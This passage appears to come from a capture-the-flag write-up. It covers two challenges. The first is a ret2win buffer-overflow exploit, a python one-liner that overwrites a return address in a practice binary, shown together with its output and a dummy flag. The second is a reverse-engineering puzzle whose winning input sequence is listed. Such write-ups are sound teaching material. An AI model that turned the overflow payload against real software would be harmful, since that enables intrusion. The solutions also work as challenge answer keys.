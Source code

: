 Now let's try it in an environment-less shell:

```
python3 -c "import sys; sys.stdout.buffer.write(b'a' * 0x28 + b'\xf6\x11\x40\x00\x00\x00\x00\x00')" | ./ret2generic-flag-reader
alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable...
how about this, we'll make a generic pwnable with an overflow and they've got to ret to some flag reading function!
slap on some flavortext and there's no way rob will fire me now!
this is genius!! what do you think?
flag{this_is_a_dummy_flag_go_solve_it_yourself}

Segmentation fault (core dumped)
sh-5.1$
```

### rev/bread-making

For this challenge, I first tried using iaito again to do some program flow
analysis. After giving up on that, I decided to instead brute-force the correct
steps by hand. This was a very long and boring process.

First I used `strings` again to extract all the dialogue and user input strings
from the binary. Then I filtered them to not include obvious dialogue, but only
the possible user input strings. And this is the correct path that gives the
flag:

```
add flour
add salt
add yeast
add water
hide the bowl inside a box
wait 3 hours
work in the basement
preheat the toaster oven
set a timer on your phone
watch the bread bake
pull the tray out with a towel
open the window
unplug the oven
unplug the fire alarm
wash the sink
clean the counters
flush the bread down the toilet
get ready to sleep
close the window
replace the fire alarm
brush teeth and go to bed
```

In hindsight I could've probably made a simple python script to brute force all
remaining possibilities until it got longer output from the program, but
laziness took over and I decided that spending 45 minutes doing very dull work
was more worth it instead.
